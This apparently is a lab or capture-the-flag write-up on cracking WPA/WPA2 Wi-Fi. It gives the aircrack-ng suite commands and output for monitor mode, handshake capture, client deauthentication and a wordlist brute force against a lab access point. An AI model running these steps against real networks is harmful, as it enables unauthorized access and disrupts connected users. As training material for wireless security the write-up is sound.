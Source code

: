 Today we learn about Wi-Fi s and the different attacks they are vulnerable to. We are asked to recreate a `WPA/WPA2 Cracking` attack where listen in on a Wi Fi and catpure the handshake between the access point and the device connected to it. now using this captured handshake file we brute force our way to crack the pass key of the Wi FI.

To recreate this attack we execute the following commands in order:
+ `iw dev` to show the wireless devices and their configurations we have available
+ `sudo iw dev wlan2 scan` to scan for available wlan2 devices in the area.
  ```
  glitch@wifi:~$ sudo iw dev wlan2 scan
  BSS 02:00:00:00:00:00(on wlan2)
  	last seen: 520.388s [boottime]
  	TSF: 1730575383370084 usec (20029d, 19:23:03)
  	freq: 2437
  	beacon interval: 100 TUs
  	capability: ESS Privacy ShortSlotTime (0x0411)
  	signal: -30.00 dBm
  	last seen: 0 ms ago
  	Information elements from Probe Response frame:
  	SSID: MalwareM_AP
  	Supported rates: 1.0* 2.0* 5.5* 11.0* 6.0 9.0 12.0 18.0 
  	DS Parameter set: channel 6
  	ERP: Barker_Preamble_Mode
  	Extended supported rates: 24.0 36.0 48.0 54.0 
  	RSN:	 * Version: 1
  		 * Group cipher: CCMP
  		 * Pairwise ciphers: CCMP
  		 * Authentication suites: PSK
  		 * Capabilities: 1-PTKSA-RC 1-GTKSA-RC (0x0000)
  	Supported operating classes:
  		 * current operating class: 81
  	Extended capabilities:
  		 * Extended Channel Switching
  		 * Operating Mode Notification 
     ```
  We can see that `02:00:00:00:00:00` is the BSSID of our wireless interface thus that is the answer to our first question.
+ Now we change the mode of our wireless interface to monitor using the following commands:
  ```
  glitch@wifi:~$ sudo ip link set dev wlan2 down
  glitch@wifi:~$ sudo iw dev wlan2 set type monitor
  glitch@wifi:~$ sudo ip link set dev wlan2 up
  ```
+ `sudo airodump-ng wlan2` shows the list of nearby wifi networks.
  ```
  glitch@wifi:~$ sudo airodump-ng wlan2
  BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
  
   02:00:00:00:00:00  -28        2        0    0   6   54   WPA2 CCMP   PSK  MalwareM_AP 
   ```
  Thus we get the answer to the second question: `MalwareM_AP, 02:00:00:00:00:00`.
+ `sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2` targets the specific network channel and MAC address (BSSID) of the access point and saves the captured traffic to `output-file`.
  ```
  glitch@wifi:~$ sudo airodump-ng -c 6 --bssid 02:00:00:00:00:00 -w output-file wlan2
  BSSID              PWR RXQ  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID

   02:00:00:00:00:00  -28 100      631        8    0   6   54   WPA2 CCMP   PSK  MalwareM_AP  
  
   BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes
  
   02:00:00:00:00:00  02:00:00:00:01:00  -29    1 - 5      0      140
   ```
  Thus we get the answer to the third question i.e. `02:00:00:00:01:00`.
+ Now we send deauthentication packets by doing `sudo aireplay-ng -0 1 -a 02:00:00:00:00:00 -c 02:00:00:00:01:00 wlan2`.
+ `sudo aircrack-ng -a 2 -b 02:00:00:00:00:00 -w /home/glitch/rockyou.txt output*cap` will now crack the `WPA/WP2` passphrase using the captured handshake file.
+ Now executing the following commands will return the passkey which is our answer to the final question.
  ```
  glitch@wifi:~$ wpa_passphrase MalwareM_AP 'ENTER PSK HERE' > config
  glitch@wifi:~$ sudo wpa_supplicant -B -c config -i wlan2
  ```

![image](https://github.com/user-attachments/assets/8addc8a4-c5b5-41ea-9b88-d6f98fda6bd3)
